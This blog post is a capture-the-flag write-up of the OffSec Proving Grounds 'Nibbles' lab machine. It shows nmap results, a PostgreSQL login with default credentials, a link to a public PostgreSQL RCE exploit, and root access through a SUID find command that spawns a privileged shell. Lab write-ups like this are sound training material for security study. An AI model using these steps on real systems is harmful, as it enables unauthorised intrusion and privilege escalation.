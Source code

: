 ```yaml
---
title: "Proving grounds Practice: Nibbles"
layout: post
date: 2024-01-05 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- PostgreSQL
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


# NMAP

```text
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9
```

## 21/tcp   open  ftp        vsftpd 3.0.3

- Anonymous login prohibited.
 - user:system = failed.

- vsftpd v3.0.3 not vulnerable tp RCE.

Moving to next port.

## 80/tcp   open  http       Apache httpd 2.4.38 ((Debian))

Nothing here!

## 5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9

PostgreSQL 11.7 (Debian 11.7-0+deb10u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit

Connecting postgresql db using default credentials `postgres:postgres`.

```sh
psql -U postgres -h 192.168.156.47 -p 5437
```

### GitHub Exploit

- https://github.com/kashif-23/modified-public-exploits/blob/main/postgresqlversions_9.3-11.7-RCE.py

![img](/assets/images/CTF/Proving_Grounds/Nibbles/IF.png)

Initial Foothold obtained.

## Privilege Escalation

Enumerate SUIDs `$ find / -perm -u=s -type f 2>/dev/null`.

```sh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/find	#vulnerable to exploit
/usr/bin/sudo
/usr/bin/umount
```

#### GTFO Bins Exploit

```sh
./find . -exec /bin/sh -p \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/Nibbles/root.png)

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).